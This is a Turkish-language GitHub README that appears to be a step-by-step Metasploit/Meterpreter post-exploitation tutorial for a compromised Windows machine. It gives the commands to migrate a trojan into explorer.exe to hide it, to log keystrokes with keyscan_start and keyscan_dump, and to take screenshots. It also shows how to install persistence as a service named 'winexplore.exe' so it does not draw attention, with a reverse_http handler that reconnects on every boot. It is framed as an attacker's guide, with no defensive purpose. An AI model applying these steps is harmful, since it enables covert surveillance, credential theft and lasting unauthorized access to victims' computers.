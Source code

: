## creted by @[ahmetkara](https://github.com/ahmetQara)

![resim](https://user-images.githubusercontent.com/18248422/175042903-d4c38166-dd6d-4ce5-ae28-71904fc1ad94.png)

## Bağlantı (hack) sonrası yapılacaklar

### Migrate (işlem göçü)

  migrate bizim backdoor olarak oluşturduğumuz ve halihazırda çalışan trojanımızı, çalışan başka bir exe içine gömerek trojanımızın gizlenmesini sağlayan bir yöntemdir. Şimdi sızmış olduğumuz bir windows cihazda “ps” komutu ile çalışan programladı listeleyelim;

![resim](https://user-images.githubusercontent.com/18248422/175042942-7016745a-5a74-40e3-b23b-904ac2cb9f8e.png)

 Burada da görüldüğü gibi “PID” yani ilk sütunda olan process id kısmını kullanarak kendi trojanımızı migrate edebileceğiz. 
 Şimdi windows da dosya sistemini görüntülemeye yarayan “explorer.exe” nin PID sini kullanarak migrate yapacağız.

![resim](https://user-images.githubusercontent.com/18248422/175042998-9d824e4a-97d5-47af-8a4a-b456daac5eae.png)

burada ki “2824” “explorer.exe” nin PID si idi ve “migrate 2824” yazıp trojanımızı migrate ettik.

NOT: “migrate” işlemi hacklenen bir cihazda ilk yapılması gerekilen işlemlerden biridir!

### Meterpreter ile Keylogger(keystroke) çalıştırmak

Keylogger yani klavyeden girilen değerleri dinlemek için aşağıda ki komutu kullanarak başlatabiliriz;

![resim](https://user-images.githubusercontent.com/18248422/175043272-49faf1ae-436b-4e85-8fa5-031789ebe777.png)
"keyscan_start" komutu ile keystroke sniffer yani klayvede basılan tuşları takip etmeye başladık. Eğer bu komuttan sonra basılan bütün klayve tuşlarını yani yazılanları görmek istiyorsak aşağıda ki komutu kullanıyoruz;

![resim](https://user-images.githubusercontent.com/18248422/175043298-8c3a2def-1649-4512-a358-9ca72e1bc02c.png)

"keyscan_start" komutu ile başlattıktan sonra hacklenen makinede basılan tüm klavye tuşlarını görmek için resimde de gördüğümüz üzere  “keyscan_dump” yazmamız yeterli.

### Screenshot almak

"screenshot" komutunu yazmamız yeterli.

### Hacklenen Cihazda Kalıcı Hale Gelmek

 Öncelikle hacklediğimiz cihazda açmış olduğumuz session menüsünden bir önceki menüye  “background” komutu ile dönüyoruz.  Geri dönmemizin nedeni payload değiştirecek olmamız, çünkü farklı bir payload kullanacağız.
![resim](https://user-images.githubusercontent.com/18248422/175043511-61ebdfb5-dff8-4650-aad3-a1b1f1920b9e.png)

  Yukarıda da görüldüğü gibi “use exploit/windows/local/persistence” persistence yani türkçe manası ile süreklilik, kalıcılık payload'ını kullanmaya ("use") başlıyoruz. Bu payload bizim trojanımızı bu cihaza service olarak enjekte etmemize yarıyor. Bu sayede hacklenen cihaz bilgisayarını her açıp internete bağlandığında cihaza yeniden erişim sağlayabileceğiz, hatta trojan bulunan exe dosyasını silse bile! Çünkü trojanımızı pc her açıldığında çalışacak şekilde bir service içine enjekte ediyoruz. Böylelikle bu cihazda kalıcı hale gelmiş oluyoruz. 

 Şimdi persistence payload'ının options kısmında bazı değişiklikler yapalım;
 
 ![resim](https://user-images.githubusercontent.com/18248422/175043557-203c8969-609c-4195-af9f-d5bc65482135.png)
 
  "set EXE_NAME winexplore.exe" diyerek “winexplore.exe” adında bir service içine trojanımızı enjekte edeceğimizi ayarladık. Burada ki  “winexplore.exe” adını biz verdik, yani herhangi bir isim verebiliriz. Dikkat çekmesin diye  “winexplore.exe” dedik.
 
 Ardından hangi session için bunu yapmak istediğimizi seçiyoruz (o an hangi session da karşı makinaya bağlıysak onun ID'si);
 ![resim](https://user-images.githubusercontent.com/18248422/175043621-41c698e2-bced-43ec-b515-98d27296ac69.png)

 "set SESSION 1" diyerek session kısmını da belirledik.
 
 Eğer istersek custom olarak kendi cihazımızda bulunan kendi oluşturduğumuz trojanı kullanmak istiyorsak bir değişiklik yapmamız gerekir. Bunun için “show advanced” komutu ile aşağıda ki kısmı açıyoruz;
 ![resim](https://user-images.githubusercontent.com/18248422/175043651-f60b8d43-9b08-4a99-9cfc-5b29f1bb3dc9.png)

 ardından yukarıda ki resimde görüldüğü gibi “set EXE::Custom” komutunu kullanıp arından /var/www/html/bacdoors.... (kendi cihazımızda trojanı nereye koyduysak .exe uzantısına kadar yazıyoruz) şeklinde trojanın yerini belirtiyoruz.
 NOT: Bunu yapmakta ki amacımız; eğer bunu yapmazsak sistem kendi oluşturduğu bir default trojan ekler, bizim trojanımızı değil.
 
 Ayarı kontrol etmek için tekrar “show advanced” diyoruz ve;
 
 ![resim](https://user-images.githubusercontent.com/18248422/175043692-37626624-1781-432f-a1ff-dd17af77085b.png)

 
 EXE::Custom kısmında gördüğümüz gibi ayarımız geçerli olmuş.
 
 Artık enjekte etmeye hazırız ve “exploit” komutu ile enjekte etmeyi başlatabiliriz;
 ![resim](https://user-images.githubusercontent.com/18248422/175043740-ce51fa99-ac9f-421f-89ad-55e09b92ed2b.png)

 "exploit" komutu sonrası bu şekilde bir ekran gelirse başarılı olmuş demektir. 
 
 
 Bundan sonra artık hangi yöntem ile hacklediysek eriştiysek ona dönebiliriz;
 ![resim](https://user-images.githubusercontent.com/18248422/175043758-8dd47976-c22b-4a92-9fc0-eb5b98fc4b8b.png)

  burda “reverse_http” kullanılmış o yüzden “use exploit/multi/handler” diyip “set PAYLOAD windows/meterpreter/reverse_http” diyip hacklediğimiz payload'a geri dönüyoruz. 
 
  Artık bundan sonra nasılsa önceden exploit ettik üstüne birde persistence kullanarak cihazda kalıcı hale geldiğimize göre, cihaz kapanıp açılsa bile açıldıktan ve internete bağlandıktan 10 saniye sonra (default olarak 10 saniye belirlenmişti istersek onu da değiştirebiliyoruz) reverse_http yöntemi ile oluşturduğumuz trojanımızı, ismini kendimiz belirlediğimiz ve içine kendi trojanımızı enjekte ettiğimiz ("persistence" payloadı ile) bir service (service adına "winexplore.exe" demiştik) sayesinde bizim cihazımıza bağlanacak. 
  
  kaynak: https://null-byte.wonderhowto.com/how-to/exploit-eternalblue-windows-server-with-metasploit-0195413/
  
  ![resim](https://user-images.githubusercontent.com/18248422/175043850-63f30f8e-9c7d-49c6-8f30-cbfc50c4bb66.png)
  ![resim](https://user-images.githubusercontent.com/18248422/175043879-23c6b837-c028-4634-8904-e2a9c67a0492.png)
  ![resim](https://user-images.githubusercontent.com/18248422/175043903-0fd8a40c-82a8-4511-9565-cca5396bfb42.png)
  ![resim](https://user-images.githubusercontent.com/18248422/175043922-eb075f16-ad88-462e-af7c-12fb41180ae5.png)
  ![resim](https://user-images.githubusercontent.com/18248422/175043959-4fc27dcc-7210-403a-9519-dbdd117b98ca.png)
  ![resim](https://user-images.githubusercontent.com/18248422/175043986-c0f65737-8802-4695-807c-b49e2290678e.png)

## creted by @[ahmetkara](https://github.com/ahmetQara)


  
  
  
  
  
  
  
  
  
 
